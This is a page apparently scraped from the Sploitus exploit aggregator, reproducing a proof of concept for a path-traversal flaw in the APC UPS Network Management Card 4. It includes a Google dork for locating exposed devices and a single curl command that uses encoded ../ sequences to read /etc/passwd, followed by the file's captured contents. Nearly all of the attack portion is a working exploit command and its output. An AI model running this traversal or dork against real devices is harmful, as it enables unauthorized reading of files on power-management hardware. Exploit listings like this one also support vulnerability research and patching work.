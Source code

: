 ```yaml
---
title: UPS Network Management Card 4 - Path Traversal Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-39463&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2024-03-19
fetch_date: 2025-10-04T12:09:57.762050
---
```


# UPS Network Management Card 4 - Path Traversal Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for UPS Network Management Card 4 - Path Traversal Vulnerability

2024-03-18 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-39463
# Exploit Title: UPS Network Management Card 4 - Path Traversal
# Google Dork: inurl:nmc inurl:logon.htm
# Exploit Author: Víctor García
# Vendor Homepage: https://www.apc.com/
# Version: 4
# Tested on: Kali Linux
# CVE: N/A

# PoC:
curl -k
https://10.10.10.10/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd

root:x:0:0:root:/home/root:/bin/sh
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
dhcp:x:997:997::/var/run/dhcp:/bin/false
messagebus:x:998:998::/var/lib/dbus:/bin/false
mosquitto:x:999:999::/home/mosquitto:/bin/false
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)